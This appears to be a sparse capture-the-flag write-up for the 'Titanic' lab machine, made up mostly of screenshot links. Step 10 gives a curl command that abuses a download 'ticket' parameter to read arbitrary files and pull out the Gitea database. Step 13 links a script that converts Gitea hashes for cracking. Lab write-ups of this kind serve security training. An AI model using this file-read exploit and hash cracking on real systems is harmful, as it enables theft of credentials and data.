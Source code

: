 1.
![image](https://github.com/user-attachments/assets/f72b7e3c-e24c-471f-9d02-8fa3c9f09cb5)
2.
![image](https://github.com/user-attachments/assets/6d349333-6c9c-4d90-bd9b-338b1754b8f4)
3.
![image](https://github.com/user-attachments/assets/7dbdb2b1-be09-42ff-a8af-f61d747cd38c)
4.
![image](https://github.com/user-attachments/assets/9457fbf0-6ba3-42c8-bbc6-33ff27047321)
5.
![image](https://github.com/user-attachments/assets/53992a20-54ba-4544-90ee-8d389372115e)
6.
![image](https://github.com/user-attachments/assets/a1a123a2-7bd4-4296-b5c2-034e79a856c1)
7.
![image](https://github.com/user-attachments/assets/1da682df-2b60-46cf-bc22-06bc7bb8e18d)
8.
![image](https://github.com/user-attachments/assets/dda1cb32-52e4-4b8e-8ffc-4114ca6011a9)
9.
![image](https://github.com/user-attachments/assets/97c0c6ce-bbbf-4359-b34b-5de3e5833b09)
10. Finding the Gitea database file named gitea.db, 
**Command: curl -s "http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db" -o gitea.db**
![image](https://github.com/user-attachments/assets/04d8a68f-7ba9-4877-974c-d9f95c0e2f7c)
11.
![image](https://github.com/user-attachments/assets/3f19662a-5abd-44b8-9a28-8905f8791bea)
12.
![image](https://github.com/user-attachments/assets/461ed8f3-1a85-466a-9753-c4c4a011e6a6)
13. https://github.com/unix-ninja/hashcat/blob/master/tools/gitea2hashcat.py
![image](https://github.com/user-attachments/assets/08aba89f-caf2-4cc8-8c07-37359834f8af)
14.
![image](https://github.com/user-attachments/assets/ffa9691f-5c2c-4a4d-b5bc-e7e3c59154c9)















